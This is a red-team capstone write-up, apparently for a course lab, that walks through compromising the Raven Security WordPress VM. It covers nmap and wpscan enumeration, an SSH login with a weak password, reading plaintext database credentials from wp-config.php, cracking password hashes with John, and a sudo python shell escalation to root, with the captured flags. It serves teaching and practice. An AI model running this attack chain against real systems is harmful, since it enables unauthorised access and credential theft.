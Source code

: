# Red Team: Summary of Operations

## Table of Contents
- Exposed Services
- Critical Vulnerabilities
- Exploitation

### Exposed Services

Step 1: Scan the network to identify the IP addresses of Target 1

`nmap -sP 192.168.1.1-255`

[nmap IP Scan results](https://github.com/joshblack07/UR-Cyber-Security-Capstone-3/blob/main/Resources/kali_nmap_IPs_Target1.PNG "nmap IP Scan results")

`nmap -sV 192.168.1.110`

Step 2: Document all exposed ports and services.

[nmap Port Scan results](https://github.com/joshblack07/UR-Cyber-Security-Capstone-3/blob/main/Resources/kali_nmap_Ports_Target1.PNG "nmap Port Scan results")

Due to `port 80` being open, we went directly to the website via p`ort 80` `192.168.1.110:80` and discovered that Raven Security is a WordPress Commenter, giving us the clue to run the wordpress scan. 

[WordPress Screenshot](https://github.com/joshblack07/UR-Cyber-Security-Capstone-3/blob/main/Resources/wordpress_port80_raven_security.PNG")

This scan identifies the services below as potential points of entry:
- Target 1
  - `port 22` - SSH
  - `port 80` - HTTP

### Vulnerabilities

The following vulnerabilities were identified on each target:

#### CVE-1999-0013 Stolen Credentials [link](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-1999-0013 "reference")
Stolen credentials from SSH clients via ssh-agent program, allowing other local users to access remote accounts belonging to the ssh-agent user.

#### CWE-521: Weak Password Requirements [link](https://cwe.mitre.org/data/definitions/521.html "reference")
The product does not require that users should have strong passwords, which makes it easier for attackers to compromise user accounts. Authentication mechanisms often rely on a memorized secret (also known as a password) to provide an assertion of identity for a user of a system. It is therefore important that this password be of sufficient complexity and impractical for an adversary to guess. The specific requirements around how complex a password needs to be depends on the type of system being protected. Selecting the correct password requirements and enforcing them through implementation are critical to the overall success of the authentication mechanism.

Guessed, weak, or default password: Access gained to user michael due to the weak or default password of `michael`

#### CWE-759: Use of a One-Way Hash without a Salt. [link](https://cwe.mitre.org/data/definitions/759.html "reference")
The software uses a one-way cryptographic hash against an input that should not be reversible, such as a password, but the software does not also use a salt as part of the input. This makes it easier for attackers to pre-compute the hash value using dictionary attack techniques such as rainbow tables.
It should be noted that, despite common perceptions, the use of a good salt with a hash does not sufficiently increase the effort for an attacker who is targeting an individual password, or who has a large amount of computing resources available, such as with cloud-based services or specialized, inexpensive hardware. Offline password cracking can still be effective if the hash function is not expensive to compute; many cryptographic functions are designed to be efficient and can be vulnerable to attacks using massive computing resources, even if the hash is cryptographically strong. The use of a salt only slightly increases the computing requirements for an attacker compared to other strategies such as adaptive hash functions. See CWE-916 for more details.

### Exploitation

The Red Team was able to penetrate `Target 1` and retrieve the following confidential data (listed in chronological order):

**Exploit**
- User michael used their username as their password
- `wpscan –-url http://192.168.1.110/wordpress -eu`
- [Users Identified](https://github.com/joshblack07/UR-Cyber-Security-Capstone-3/blob/main/Resources/Kali_Users_Identified.PNG "Users Identified")
- `ssh michael@192.168.1.110`
- [login as michael](https://github.com/joshblack07/UR-Cyber-Security-Capstone-3/blob/main/Resources/kali_login_michael.PNG "Login_Michael")

**Flag #2**
-  Flag #2 {fc3fd58dcdad9ab23faca6e9a36e581c} 
- `cd /var/www`
- `cat flag2.txt`
- [Flag 2](https://github.com/joshblack07/UR-Cyber-Security-Capstone-3/blob/main/Resources/kali_michael_flag2.PNG "Flag 2")

**Flag #1**
- Flag #1 {b9bbcb33e11b80be759c4e844862482d}
- `grep -RE flag html`
- [Flag 1](https://github.com/joshblack07/UR-Cyber-Security-Capstone-3/blob/main/Resources/kali_michael_flag1.PNG "Flag 1")

**Exploit**
- MySQL server login credentials in plain text found in wp-config.php file.
- `cat /var/www/html/wordpress/wp-config.php`
  - Password: R@v3nSecurity
  - [MySQL DB Password](https://github.com/joshblack07/UR-Cyber-Security-Capstone-3/blob/main/Resources/kali_MySQL_DB_password.PNG "MySQL DB Password")

**Exploit**
- MySQL server login credentials in plain text found in wp-config.php file.
- `mysql -u root -p`
- `mysql> use wordpress;`
- `mysql> select * from wp_users;`
  - Password: R@v3nSecurity
  - [user password hashes](https://github.com/joshblack07/UR-Cyber-Security-Capstone-3/blob/main/Resources/kali_MySQL_wp_users.PNG "user password hashes")

**Flag #3**
- Flag #3 {afc01ab56b50591e7dccf93122770cd2} 
  - [Flag 3](https://github.com/joshblack07/UR-Cyber-Security-Capstone-3/blob/main/Resources/kali_mySQL_wp_posts_flags.PNG "Flag 3")

**Exploit**
- Use John to crack the passwords and login as users.
- `nano wp_hashes.txt`
  - `michael:$P$BjRvZQ.VQcGZlDeiKToCQd.cPw5XCe0`
  - `steven:$P$Bk3VD9jsxx/loJoqNsURgHiaB23j7W/`
- `john wp_hashes.txt`
  - Steven: pink84
- [login as steven](https://github.com/joshblack07/UR-Cyber-Security-Capstone-3/blob/main/Resources/kali_login_steven.PNG "login as steven")

**Exploit**
- Spawn Shell → python sudo privileges
- `sudo python -c ‘import pty;pty.spawn(“/bin/bash”)’`
- [escalated privileges](https://github.com/joshblack07/UR-Cyber-Security-Capstone-3/blob/main/Resources/kali_root_python_flag4.PNG "escalated privileges")

**Flag #4**
- Flag #4 {715dea6c055b9fe3337544932f2941ce}
  - `cd ../..`
  - `cat flag4.txt`
  - [Flag 4](https://github.com/joshblack07/UR-Cyber-Security-Capstone-3/blob/main/Resources/kali_root_python_flag4.PNG "Flag 4")

